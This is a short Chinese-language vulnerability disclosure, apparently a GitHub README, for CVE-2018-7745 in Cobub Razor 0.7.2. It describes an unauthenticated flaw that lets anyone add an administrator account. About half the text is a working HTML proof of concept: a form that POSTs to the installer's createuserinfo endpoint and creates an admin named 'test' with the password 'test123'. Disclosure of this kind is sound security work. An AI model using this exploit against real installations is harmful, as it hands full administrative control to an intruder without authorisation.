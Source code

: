 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub Razor 0.7.2越权增加管理员账户|2018-04-09|ppb（ppb@5ecurity.cn）|[https://github.com/cobub/razor/](https://github.com/cobub/razor/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) |0.72| [CVE-2018-7745](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7745)|  

#### 漏洞概述  

> Cobub Razor 0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。   
 

### POC实现代码如下：  

> 利用代码如下：
``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

